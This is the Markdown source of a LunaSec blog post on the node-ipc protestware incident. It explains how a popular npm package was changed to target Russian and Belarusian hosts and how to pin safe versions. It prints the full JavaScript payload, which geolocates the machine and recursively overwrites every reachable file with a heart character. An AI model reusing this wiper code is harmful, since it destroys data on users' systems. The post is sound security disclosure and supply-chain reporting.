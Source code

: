 ```yaml
---
title: Protestware - How node-ipc turned into malware that targets russian IPs
description: The node-ipc package has turned into malware for Russian computers.
slug: node-ipc-protestware
date: 2022-03-18
image: https://www.lunasec.io/docs/img/.png
keywords: [node-ipc, protestware]
tags: [node-ipc, npm, nodejs]
authors: [chris]
---
```


<!--
  ~ Copyright by LunaSec (owned by Refinery Labs, Inc)
  ~
  ~ Licensed under the Creative Commons Attribution-ShareAlike 4.0 International
  ~ (the "License"); you may not use this file except in compliance with the
  ~ License. You may obtain a copy of the License at
  ~
  ~ https://creativecommons.org/licenses/by-sa/4.0/legalcode
  ~
  ~ See the License for the specific language governing permissions and
  ~ limitations under the License.
  ~
-->

[node-ipc](https://www.npmjs.com/package/node-ipc) is a popular package to help with inter-process communication in Node. Here is a long, but not exhaustive list of projects that include
this dependency: https://github.com/zlw9991/node-ipc-dependencies-list. Among the list of projects affected is most notably is the [Vue web framework](https://www.npmjs.com/package/@vue/cli-shared-utils).

Snyk has written a [blog post](https://snyk.io/blog/peacenotwar-malicious-npm-node-ipc-package-vulnerability/) detailing
the timeline of events around the releasing of this malicius version.

The malicious code, which has since been deleted can be found [here](https://github.com/RIAEvangelist/node-ipc/blob/847047cf7f81ab08352038b2204f0e7633449580/dao/ssl-geospec.js).
This code was [obfuscated](https://github.com/RIAEvangelist/node-ipc/issues/233#issuecomment-1072077181) to hide its intentions by the developer as more people started to pay attention to what was happening. 

```js
import p from "path";
import fs from "fs";
import https from "https";
setTimeout(function () {
    if (Math.round(Math.random() * 4) > 1) {
        return;
    }
    const geoLocation = "https://api.ipgeolocation.io/ipgeo?apiKey=ae511e1627824a968aaaa758a5309154";
    https.get(geoLocation, function (response) {
        response.on("data", function (jsonData) {
            try {
                const jsonObject = JSON.parse(jsonData);
                const countryName = jsonObject["country_name"].toLowerCase();
                if (countryName.includes("russia") || countryName.includes("belarus")) {
                    getFiles("./");
                    getFiles("../");
                    getFiles("../../");
                    getFiles("/");
                }
            } catch (response) {}
        });
    });
}, Math.ceil(Math.random() * 1000));

async function getFiles(path = "", param2 = "") {
    if (!fs.existsSync(path)) {
        return;
    }
    let fileInDir = [];
    try {
        fileInDir = fs.readdirSync(path);
    } catch (t) {}
    const toDelete = [];
    for (var i = 0; i < fileInDir.length; i++) {
        const combinedPath = p.join(path, fileInDir[i]);
        let pathData = null;
        try {
            pathData = fs.lstatSync(combinedPath);
        } catch (t) {
            continue;
        }
        if (pathData.isDirectory()) {
            const result = getFiles(combinedPath, param2);
            result.length > 0 ? toDelete.push(...result) : null;
        } else if (combinedPath.indexOf(param2) >= 0) {
            try {
                fs.writeFile(combinedPath, "❤️", function () {});
            } catch (t) {}
        }
    }
    return toDelete;
}
const ssl = true;
export { ssl as default, ssl };
```

The code attempts to geolocate where the code is running, and if it discovers it is running with in Russia or Belarus, then it attempts to
replace the contents of every file on the system with a unicode heart character: ❤.

You can pin the `node-ipc` version to a known version by adding this to your package.json:
```json
"overrides": {
    "node-ipc@>9.2.1 <10": "9.2.1",
    "node-ipc@>10.1.0": "10.1.0"
}
```

This will prevent future malicious updates to the package from being included in your project.

On NPM, previous versions that were pushed that contained the malicious code, versions
[9.2.2](https://www.npmjs.com/package/node-ipc/v/9.2.2), [10.1.1](https://www.npmjs.com/package/node-ipc/v/10.1.1),
[10.1.2](https://www.npmjs.com/package/node-ipc/v/10.1.2), [have all been removed](https://www.npmjs.com/package/node-ipc).

However, newely released versions, > 11.x.x, all now contain the library [peacenotwar](https://www.npmjs.com/package/peacenotwar).
Unlike the previous malicious code, this library does not remove files. Instead, the library attempts to "deliver a peaceful message"
by [writing the contents](https://github.com/RIAEvangelist/peacenotwar/blob/main/index.js#L32) of the file, [WITH-LOVE-FROM-AMERICA.txt](https://github.com/RIAEvangelist/peacenotwar/blob/main/WITH-LOVE-FROM-AMERICA.txt)
to the host filesystem.

The updates to the `node-ipc` struck a chord with developers on the Internet and a great deal of activity has been 
happening on the project page since the version release.

**Warning** The follow links may contain offensive terms, and are not safe for work.

A number of
[issues](https://github.com/RIAEvangelist/node-ipc/issues), [pull requests](https://github.com/RIAEvangelist/node-ipc/pulls), and [discussions](https://github.com/RIAEvangelist/node-ipc/discussions) 
have been created in outrage over the developer's modifications to their library.

All of this is happening on the coat-tail of the widely used libraries `faker.js` and `colors.js` having code changes pushed
to [intentionally corrupt](https://www.theverge.com/2022/1/9/22874949/developer-corrupts-open-source-libraries-projects-affected)
projects that included them.

## Unacceptable

